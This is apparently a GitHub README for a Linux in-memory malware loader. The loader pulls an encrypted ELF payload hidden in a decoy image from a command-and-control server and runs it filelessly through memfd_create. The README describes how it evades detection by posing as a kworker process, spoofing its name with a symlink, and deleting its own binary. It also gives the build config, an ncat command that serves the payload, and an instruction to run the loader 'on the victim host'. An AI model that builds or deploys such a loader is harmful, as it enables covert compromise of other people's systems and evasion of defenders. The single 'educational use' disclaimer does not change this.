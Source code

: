## In-Memory Loader for Linux

This tool implements an **in-memory ELF loader** for Linux systems. It connects to a remote C2 (Command & Control) server over TCP, downloads a ELF payload (optionally encrypted and embedded in a decoy image), and executes it directly from memory using `memfd_create()`.

> ⚠️ **For educational and authorized use only.**
> Do not use this tool on systems you do not own or lack explicit permission to operate on.


### Key Features

* Pulls a payload from a remote C2 or local image file
* Optional AES-256-CBC encryption with a custom marker
* Uses `memfd_create()` to execute from memory with no filesystem drop
* Fake process name via `argv[0]` to evade process listings
* Temporary symlink spoofing to set custom `/proc/<pid>/status` names
* Deletes itself via `unlink("/proc/self/exe")` after startup
* Optional persistence by writing the payload+image to disk

### Configuration & Build

You define all parameters in a `config.json` file. The Python builder script (`builder.py`) handles:

* Payload encryption and embedding
* Loader patching with C constants
* Marker injection and key generation

#### Example `config.json`:

```json
{
  "loader": "loader.c",
  "loader_build": "loader_build.c",
  "image": "original.png",
  "payload": "payload.elf",
  "image_payload": "encrypted.png",
  "password": "encrypted",
  "C2_IP": "127.0.0.1",
  "C2_PORT": 4444,
  "FAKE_PROC": "[kworker/u:1]",
  "FD_NAME": "hidden",
  "PROC_LINK": "",
  "EXTRACT_PATH": "/tmp/payload.img",
  "MARKER": "ENCRYPTED_PAYLOAD"
}
```

#### Build it:

```bash
python3 builder.py --config config.json
```

### Payload Input Modes

The payload can be retrieved and decrypted in **two ways**:

1. **Remote Plain ELF**
   The payload is served directly over the socket (no encryption).

2. **Remote or Local Encrypted Image**
   The encrypted payload is embedded into an image file and appended after a marker. The loader will:

   * Check for `EXTRACT_PATH` and load it if available
   * Otherwise, connect to the C2 to download it
   * Decrypt it using the marker and AES key

### Execution Modes

The loader supports **three execution modes**, based on configuration:

#### 1. In-Memory Only (Default)

If `PROC_LINK` is **empty**:

* Payload is loaded into memory using `memfd_create()`
* Executed via `fexecve()`
* No disk artifacts remain
* `/proc/<pid>/status` will show a numeric name (e.g., `Name: 5`)

#### 2. Temporary Symlink Execution

If `PROC_LINK` is **set**:

* A symlink is created to `/proc/self/fd/<fd>` (e.g. `/tmp/.cache`)
* The process is executed through the symlink to spoof its name
* The symlink is deleted automatically after a short delay (\~1s)
* This provides stealthier `/proc/<pid>/status` entries

#### 3. Persistence via Local Extraction

If `EXTRACT_PATH` is **set**:

* The encrypted image is stored on disk
* On subsequent runs, the loader will use this instead of redownloading
* Useful in restricted environments where remote access is limited

### Usage

1. **Generate the loader and image**:

```bash
python builder.py --config config.json
```

2. **Compile payload**:

```bash
gcc -o loader loader_build.c -lcrypto
```

3. **Serve the payload (if no EXTRACT\_PATH)**:

```bash
ncat -lvnp 4444 < encrypted.png
```

4. **Execute the loader on the victim host**:

```bash
./loader
```

### Forensics Traces

```bash
$ ps aux | grep kworker
root     1023  0.0  0.0   2344   500 ?        Ss   14:01   0:00 [kworker/0:1-events]
root     1025  0.0  0.0   3040  1428 pts/0    S+   14:01   0:00 grep kworker

$ cat /proc/1023/maps | grep memfd
00400000-00401000 r-xp 00000000 00:01 1234      /memfd:error (deleted)
0041f000-00420000 r--p 0000f000 00:01 1234      /memfd:error (deleted)
```
